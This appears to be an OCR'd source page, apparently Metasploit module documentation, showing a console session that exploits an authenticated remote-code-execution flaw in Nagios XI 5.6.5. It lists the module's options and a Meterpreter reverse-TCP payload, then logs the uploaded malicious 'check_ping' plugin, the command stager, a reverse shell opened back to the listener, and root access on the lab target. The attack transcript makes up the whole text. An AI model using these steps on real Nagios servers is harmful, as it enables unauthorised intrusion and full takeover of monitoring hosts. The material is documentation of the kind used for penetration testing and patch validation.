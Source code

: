 ```
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the lo
                                              cal machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.25.132.121   yes       The listen address (an interface may be specified)
   LPORT  7712             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 172.25.132.121:7712
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 172.25.133.237
[*] Meterpreter session 1 opened (172.25.132.121:7712 -> 172.25.133.237:52646) at 2021-04-13 17:39:07 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ test-Virtual-Machine (uid=0, gid=0, euid=0, egid=0)
meterpreter > pwd
/usr/local/nagiosxi/html/includes/components/profile
meterpreter > shell
Process 3747 created.
Channel 1 created.
uname -a
Linux test-Virtual-Machine 5.4.0-70-generic #78~18.04.1-Ubuntu SMP Sat Mar 20 14:10:07 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```